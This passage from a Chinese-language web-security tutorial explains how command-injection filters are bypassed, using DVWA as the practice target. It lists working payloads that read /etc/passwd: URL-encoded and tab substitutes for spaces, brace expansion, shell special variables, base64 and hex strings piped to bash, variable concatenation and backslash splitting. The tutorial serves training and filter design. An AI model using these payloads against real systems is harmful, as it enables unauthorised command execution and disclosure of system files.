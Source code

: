 ```java
cat%20/etc/passwd
cat+/etc/passwd
cat%09/etc/passwd
```

* **{cmd,arg}**

在 Linux bash 环境中可以使用花括号 {cmd,arg} 扩展来绕过：

```java
{cat,etc/passwd}
```

这个依赖 bash 环境，并不是那么通用的方式，比如在 DVWA 靶场中就不适用。  
**（3）黑名单绕过**

绕过黑名单就是先探测哪些是黑名单，尽量避开不用，如果还不行可以考虑以下方法。

* **shell 特殊变量**

先看下 shell 中的一些特殊变量：


<Image alt="图片5.png" src="https://s0.lgstatic.com/i/image/M00/92/B4/Ciqc1GASi7mASyv4AAFgvRQXlzo668.png"/> 
  

比如 cat 命令被禁，利用上述特殊变量，我们就可以这样构造来绕过：

```java
ca$1t /etc/passwd
cat$*t /etc/passwd
ca$@t /etc/passwd
```

* **编码绕过**

直接将命令字符串转换成 URL 编码、hex 码、base 64 等编码，再转换回来执行：

```shell
# Base64编码命令"cat /etc/passwd"
echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d|bash
# Hex编码命令"cat /etc/passwd"
echo "636174202f6574632f706173737764"|xxd -r -p|bash
$(printf "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
# URL编码
cat%20%2Fetc%2Fpasswd
```

* **变量自定义**

将黑名单内容拆分到不同的变量，再拼接起来执行。

```java
a=c;b=at;c="/etc/passwd";$a$b $c
```

* **反斜杠**

反斜杠的作用就是转义，因此可用来拆分黑名单字符串，但又不影响结果。

```java
c\a\t /et\c/pas\s\wd
```
